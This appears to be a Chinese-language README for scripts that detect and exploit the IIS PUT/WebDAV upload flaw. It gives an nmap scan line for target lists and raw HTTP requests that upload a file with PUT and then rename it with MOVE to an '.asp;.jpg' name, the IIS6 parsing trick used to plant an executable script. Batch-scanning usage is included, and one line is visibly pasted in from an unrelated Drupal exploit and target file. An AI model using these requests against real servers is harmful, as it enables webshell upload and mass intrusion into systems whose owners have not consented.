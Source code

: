 # IIS PUT 上传漏洞检测脚本

nmap检测ii6

nmap -sT -sV -p 80-90,443,8001-8090,8443 -O --script http-headers.nse,http-methods,http-put.nse,http-iis-webdav-vuln.nse --open -Pn -v -oN iis6_res.txt -iL 777.txt


手动检测：
1、检测开启的方法
```
OPTIONS / HTTP/1.1
HOST:XXX.XXX.XXX.XXX
```

2、PUT上传文件，Burp可能会返回403禁止上传，但是用py可以上传
```
PUT /3.txt HTTP/1.1
HOST:XXX.XXX.XXX.XXX
Content-Length:1

1
```

3、move方法将上传的文件改为脚本后缀
```
MOVE /2222.txt HTTP/1.1
HOST:XXX.XXX.XXX.XXX
Destination:http://23.236.75.141/2222.asp;.jpg
```
* iis_put.py

* iis_put_multi.py

## iis_put.py

单个IP检测

python3 iis_put.py http://xxx.xxx.xxx.xxx

![](../imgs/IIS/put.png)

## iis_put_multi.py

批量检测

python3 CVE-2018-7600_multi.py /root/unAuth/Drupal/us.txt 10





